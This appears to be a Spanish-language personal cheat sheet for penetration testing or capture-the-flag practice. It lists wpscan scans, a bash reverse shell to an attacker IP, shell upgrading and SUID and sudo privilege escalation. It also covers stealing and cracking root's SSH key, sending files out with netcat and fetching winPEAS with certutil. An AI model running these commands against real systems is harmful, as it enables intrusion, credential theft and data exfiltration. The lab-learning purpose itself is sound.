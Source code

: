 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:**
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:**
[revshell](https://www.revshells.com/)

 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 
 **En caso de querer codificarla en url, podemos realizar el siguiente comando:**
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros zip:**
zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234**
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y

**Página donde ver como escalar privilegios con los binarios (sudo -l )**
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos**
ls -la /* | less

**Página donde se ven diferentes tipos de ataque:**
[deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar priv con rutas absolutas:**
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar priv por medio de SUID**
Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

**Ejemplo de Búsqueda de Archivos SUID** 
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).
**Otro ejemplo pero con un editor como puede ser vim:**
vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en**
/root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip

**Compartir ficheros con máquinas Windows**
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe



**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login**
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)

